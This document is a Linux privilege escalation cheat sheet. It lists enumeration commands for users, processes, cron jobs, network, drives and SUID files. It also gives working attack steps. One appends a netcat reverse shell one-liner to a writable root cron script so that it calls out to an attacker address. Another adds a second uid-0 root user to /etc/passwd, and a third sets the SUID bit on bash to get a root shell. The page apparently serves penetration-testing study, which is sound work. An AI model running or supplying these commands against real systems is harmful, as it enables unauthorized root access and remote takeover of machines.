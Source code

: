 # Linux privilege escalation  

Find out what user is currently logged in.  

`whoami`  

Find user context.  

`id`  

Find information from the hostname.  

`hostname`  

os version information.  

```
cat /etc/*-release
uname -a
```  

List processes, a and x with/without TTY and u for readable output.  

`ps aux`

## cron  

List cron.  

`ls -lah /etc/cron*`  

System cron jobs usually running as root.  

`cat /etc/crontab`  


To view running jobs in the cron log.  

`grep "CRON" /var/log/cron.log`  

If a writable script(user_backups.sh) is found as a cronjob, a reverse shell one liner can be appended.  

```
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
```  

## /etc/passwd  

If /etc/passwd is writable, another root user can be added.  

```
openssl passwd somepassword1
echo "root2:<somepassword1 hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```  

## bash  

If we can execute a command as root.  

```
chmod +s /usr/bin/bash
/usr/bin/bash -p
```  

## Kernel vulns  

Gathering info.  

To display message of login prompt.  

`cat /etc/issue`  

Kernel version.  

`uname -r`  

Architecture.  

`arch`  

## Network  

Display all network information.  

`ip a`  

`ifconfig a`  

Display route tables, depending on linux flavour/version.  

`/sbin/route`  

`/sbin/routel`  

List all connections, 'a' = all, 'n' = no dns, 'p' = print owning process.  

`ss -anp`  

Firewall rules as root user.  

`iptables`  

Some firewall rules can be found as a standard user.  

`/etc/iptables`  

## Applications  

View installed applications.  

`dpkg -l`  

## File permissions  

Using the find command.  

`find / -writable -type d 2>/dev/null`  

## Drives  

View mounted drives.  

`mount`  

`cat /etc/fstab`  

View all available disks.  

`/bin/lsblk`  

## Kernel modules  

Display kernel modules.  

`lsmod`  

Find information about a specific module.  

`/sbin/modinfo libata`  

## SUID  

Find SUID bits.  

`find / -perm -u=s -type f 2>/dev/null`  

